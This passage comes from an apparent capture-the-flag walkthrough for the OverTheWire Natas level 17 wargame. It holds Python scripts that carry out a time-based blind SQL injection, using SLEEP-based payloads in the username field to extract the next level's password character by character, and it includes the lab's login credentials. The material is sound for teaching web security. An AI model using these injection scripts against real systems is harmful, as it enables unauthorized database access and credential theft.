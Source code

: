 ```python
        auth=HTTPBasicAuth(username="natas17",
                            password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
        data={"username": 'natas18" AND BINARY password LIKE "' + character + '%" AND SLEEP(1) # '}
    )

    end_time = time()
    difference = end_time - start_time

    if difference > 1:
        password += character
        break

print("Password: ", password)
```
{% endcode %}

The above script responded with the following output, from which we have found the first letter of the password.&#x20;

<figure><img src=".gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Now its time to fetch the entire password. The following python script will fetch the entire password based on the response time of the requests.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

while len(password) < 32:
    for character in characters:
        start_time = time()

        response = session.post(
            "http://natas17.natas.labs.overthewire.org/index.php",
            auth=HTTPBasicAuth(username="natas17",
                               password="XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"),
            data={"username": 'natas18" AND BINARY password LIKE "' +
                  "".join(password) + character + '%" AND SLEEP(1) # '}
        )

        end_time = time()
        difference = end_time - start_time

        if difference > 1:
            password += character
            break
    print("Password: ", password)
```
{% endcode %}
